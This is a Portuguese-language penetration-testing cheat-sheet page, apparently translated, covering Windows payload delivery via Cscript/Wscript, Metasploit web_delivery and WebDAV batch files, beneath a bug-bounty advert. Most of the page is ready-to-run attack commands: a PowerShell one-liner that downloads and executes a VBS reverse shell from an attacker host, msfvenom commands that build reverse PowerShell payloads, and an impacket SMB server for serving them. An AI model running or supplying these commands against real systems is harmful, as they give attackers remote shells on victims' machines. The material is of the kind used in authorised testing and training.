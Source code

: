 **HackenProof é o lar de todas as recompensas por bugs de criptografia.**

**Seja recompensado sem atrasos**\
As recompensas do HackenProof são lançadas apenas quando seus clientes depositam o orçamento de recompensa. Você receberá a recompensa após a verificação do bug.

**Adquira experiência em pentesting web3**\
Protocolos de blockchain e contratos inteligentes são a nova Internet! Domine a segurança web3 em seus dias de ascensão.

**Torne-se a lenda do hacker web3**\
Ganhe pontos de reputação com cada bug verificado e conquiste o topo do leaderboard semanal.

[**Cadastre-se no HackenProof**](https://hackenproof.com/register) comece a ganhar com seus hacks!

{% embed url="https://hackenproof.com/register" %}

## **Cscript/Wscript**
```bash
powershell.exe -c "(New-Object System.NET.WebClient).DownloadFile('http://10.2.0.5:8000/reverse_shell.vbs',\"$env:temp\test.vbs\");Start-Process %windir%\system32\cscript.exe \"$env:temp\test.vbs\""
```
**Cscript - Metasploit**

O Cscript é uma ferramenta de linha de comando que permite a execução de scripts em linguagem VBScript. O Metasploit, por outro lado, é um framework de teste de penetração amplamente utilizado. Neste contexto, o Cscript pode ser usado em conjunto com o Metasploit para executar scripts VBScript maliciosos em sistemas Windows vulneráveis.

Para usar o Cscript com o Metasploit, siga as etapas abaixo:

1. Crie um script VBScript malicioso que execute a carga útil desejada. Por exemplo, um script que execute um shell reverso.

2. Abra o console do Metasploit e inicie o módulo `exploit/multi/script/web_delivery`.

3. Configure as opções necessárias, como o payload a ser entregue e o endereço IP do ouvinte.

4. Execute o módulo e aguarde a geração do script de entrega.

5. Copie o script gerado e cole-o em um arquivo de texto.

6. Salve o arquivo com a extensão `.vbs`.

7. No prompt de comando do Windows, navegue até o diretório onde o arquivo `.vbs` foi salvo.

8. Execute o script usando o comando `cscript nome_do_arquivo.vbs`.

9. Se tudo correr conforme o esperado, uma conexão reversa será estabelecida entre o sistema alvo e o atacante.

Lembre-se de que o uso de ferramentas e técnicas de hacking é estritamente regulamentado e só deve ser realizado com permissão legal e ética.
```bash
msfvenom -p cmd/windows/reverse_powershell lhost=10.2.0.5 lport=4444 -f vbs > shell.vbs
```
**Detectado pelo defensor**

## PS-Bat
```bash
\\webdavserver\folder\batchfile.bat
```
Processo realizando chamada de rede: **svchost.exe**\
Carga gravada no disco: **Cache local do cliente WebDAV**
```bash
msfvenom -p cmd/windows/reverse_powershell lhost=10.2.0.5 lport=4444 > shell.bat
impacket-smbserver -smb2support kali `pwd`
```
